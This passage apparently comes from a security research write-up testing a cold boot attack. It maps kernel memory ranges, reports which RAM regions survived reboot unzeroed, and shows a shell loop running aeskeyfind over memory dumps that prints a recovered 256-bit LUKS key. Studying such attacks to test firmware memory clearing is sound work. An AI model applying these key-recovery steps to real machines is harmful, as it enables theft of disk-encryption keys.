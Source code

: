 #### Cold boot attack both stages

This time `/proc/iomem` shows the Linux kernel is placed under the following
addresses:

```text
(...)
00100000-7d9ddfff : System RAM
  13a00000-149fffff : Kernel code
  14a00000-1557cfff : Kernel rodata
  15600000-1586d47f : Kernel data
  16127000-165fffff : Kernel bss
7d9de000-7da65fff : Reserved
```

Analysis of other addresses:

* `0x1000-0x10000`: not zeroed, but `hexdump` showed that the only
  data in this region is [the
  pattern](https://github.com/zarhus/ram-dump-efi/blob/361b3637218c72f5b3b23e09455df63daafffb84/app.c#L5)
  written by the EFI application. Hence, this region was not used by Linux or
  bootloader.
* `0x100000-0x800000`: 524288 bytes zeroed and 6815744 not zeroed. All
  non-zeroed bytes contain [the
  pattern](https://github.com/zarhus/ram-dump-efi/blob/361b3637218c72f5b3b23e09455df63daafffb84/app.c#L5)
  written by the EFI application. Hence, these bytes were not used by Linux or
  bootloader.
* `0x1600000-0x7bd20000`: 84606976 zeroed and 1969684480 not zeroed. Most of
  non-zeroed addresses contain some data.
* `0x7bd48000-0x7d922000`: not zeroed, contains data.
* `0x7f5ee000-0x7f5f4000`: not zeroed, contains data.
* `0x7fc00000-0x7fc70000`: not zeroed, contains data.
* `0x7fd20000-0x7fd2d000`: not zeroed, contains data.
* `0x100000000-0x180000000`: this region is very fragmented in terms of zeroed
  and not zeroed addresses. 319815680 bytes was zeroed and 1827667968 was not
  zeroed. Still a lot of processes data not zeroed.

Yet another pack of stolen LUKS keys:

```bash
$ while read -r file; do
echo -e "Checking file: $file"
aeskeyfind -v $file
done < <(ls ./*.csv)
Checking file: ./2025_05_03_21_13_0x0000000000001000.csv
Keyfind progress: 100%
Checking file: ./2025_05_03_21_13_0x0000000000100000.csv
Keyfind progress: 100%
Checking file: ./2025_05_03_21_13_0x0000000001600000.csv
Keyfind progress: 100%
Checking file: ./2025_05_03_21_14_0x000000007BD48000.csv
Keyfind progress: 100%
Checking file: ./2025_05_03_21_14_0x000000007F5EE000.csv
Keyfind progress: 100%
Checking file: ./2025_05_03_21_14_0x000000007FC00000.csv
Keyfind progress: 100%
Checking file: ./2025_05_03_21_14_0x000000007FD20000.csv
Keyfind progress: 100%
Checking file: ./2025_05_03_21_14_0x0000000100000000.csv
FOUND POSSIBLE 256-BIT KEY AT BYTE 62b6020

KEY: fbd6ea69496a02f6af8bd0e889372214a5ad905e62237a45ab9719b7108e8ee9

EXTENDED KEY:
```